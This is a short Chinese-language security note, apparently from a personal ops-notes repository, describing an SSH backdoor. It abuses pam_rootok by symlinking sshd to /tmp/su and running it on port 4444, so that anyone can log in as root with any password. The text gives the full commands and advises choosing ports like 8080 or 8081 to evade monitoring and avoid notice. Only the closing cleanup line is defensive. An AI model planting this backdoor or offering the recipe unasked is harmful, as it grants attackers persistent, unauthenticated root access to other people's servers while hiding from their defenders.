


# SSH后门-SSH软连接

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2B%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81%2B%E7%9F%A5%E8%AF%86%E7%AC%94%E8%AE%B0-SSH%E5%90%8E%E9%97%A8-SSH%E8%BD%AF%E8%BF%9E%E6%8E%A5.md)

**前提：**

允许PAM认证(默认)：

```
cat /etc/ssh/sshd_config
```

## 

**原理：**

在sshd服务配置运行**PAM认证**的前提下，PAM配置文件中控制标志为sufficient时只要pam_rootok模块检测uid为0（root）即可成功认证登陆

**利用：**

可用的软连接名称：

```
find /etc/pam.d |xargs grep "pam_rootok"
```



上面**su、chfn、chsh**等这几个名称都可以，下面以**su**为例：

通过软连接建立后门：

```
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=4444
```

执行完之后，任何一台机器**ssh root@IP -p 4444**，输入任意密码，成功登录：

## ****

**优点：**

能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。

删除软连接后门：

```
rm -rf 【软连接地址】
```

``
